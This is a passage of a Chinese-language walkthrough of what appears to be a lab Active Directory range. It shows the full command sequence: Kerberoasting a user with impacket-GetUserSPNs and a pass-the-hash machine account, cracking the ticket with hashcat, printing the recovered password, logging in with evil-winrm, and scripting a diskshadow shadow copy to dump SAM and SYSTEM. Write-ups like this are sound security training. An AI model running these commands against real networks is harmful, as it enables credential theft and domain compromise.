 [![](assets/1706233449-f3fef18a080a41058a68463789614c55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143924-50284be0-ba83-1.png)

发现`tianjing`用户，抓取一下 hash

```plain
proxychains impacket-GetUserSPNs xiaorang.lab/'XR-0923$' -hashes :b2caa4c3f6d5e97bf7c58f7db9e24317 -dc-ip 172.22.14.11 -request-user tianjing
```

[![](assets/1706233449-3dbdf9f025987b6bf233a7fceeaed934.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143931-546db622-ba83-1.png)

而后破解一下密码

```plain
hashcat -m 13100 -a 0 1.txt /usr/share/wordlists/rockyou.txt --force
```

得到

```plain
tianjing:DPQSXSXgh2
```

使用`evil-winrm`登录，进行简单信息搜集

[![](assets/1706233449-f94544d3b1bacb07e1f369ceb0805573.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143939-58f76328-ba83-1.png)

### 卷影拷贝

有备份以及还原文件和目录的权限，尝试导出 sam 和 system。

首先在本地创建一个 dsh 文件，这里命名为`raj.dsh`，内容如下

```plain
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

接下来再用 unix2dos 将 dsh 文件的编码间距转换为 Windows 兼容的编码和间距

```plain
unix2dos raj.dsh
```

[![](assets/1706233449-29c775d6214b8d5a3b4d755c3a035a75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143947-5dad3d48-ba83-1.png)

接下来上传到靶机，我们在`C:/`下随便创个目录，上传此文件

[![](assets/1706233449-efa67848e1194c0713492677a621eb41.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143952-61096692-ba83-1.png)

卷影拷贝

```plain
diskshadow /s raj.dsh
```
